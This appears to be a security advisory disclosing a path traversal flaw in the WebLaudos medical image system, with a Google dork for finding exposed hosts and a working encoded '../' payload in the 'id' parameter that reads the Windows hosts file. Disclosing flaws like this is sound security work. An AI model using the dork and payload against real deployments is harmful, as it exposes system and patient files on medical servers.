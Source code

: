 # Directory Traversal

### Product Description:
The WebLaudos software developed by Pixeon is a system that manage, and share medical images that can be accessed by doctors or patients.
	
### Vulnerability Description:
A path traversal attack (also known as directory traversal) was discovered in the WebLaudos software. This vulnerability allows an attacker to access files and directories stored outside the web root folder. By manipulating the id parameter in the URL using “dot-dot-slash (../)” sequences and their variations or by using absolute file paths, an attacker may be able to access arbitrary files and directories on the file system, including system files.

### Vulnerability Type:
CWE-35: Path Traversal

### Example vulnerable URL 
To find vulnerable hosts, you can use the following Google Dork:<br>
```intitle:"WebLaudos"```
<br>
The first directories are customizable, so here are three examples of vulnerable URLs: <br>
https://example.com/laudo/multimagem/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
https://example.com/web_laudos/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
https://example.com/img/img-cache.asp?id=..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts <br><br>
	
### Vendor:
Pixeon
	
### Affected Product:
WebLaudos — 24.2 (04)
	
### Affected Component:
Endpoint: https://example.com/laudo/multimagem/img/img-cache.asp <br>
Parameter: id <br>
Example payload: ..%2f..%2f..%2f..%2fWindows%2fSystem32%2fdrivers%2fetc%2fhosts

### Attack Vector:
Remote
	
### Code Execution:
No
	
### Attack Vector:
Attackers can escape outside of the restricted location to access files or directories that are elsewhere on the system.
	
### Reference:
https://cwe.mitre.org/data/definitions/35.html <br>
https://cwe.mitre.org/data/definitions/22.html <br>
https://owasp.org/www-community/attacks/Path_Traversal <br>
	
### Discoverer:
Kauan Akyra (Ak7r4) | kakyra@intruderlabs.com.br
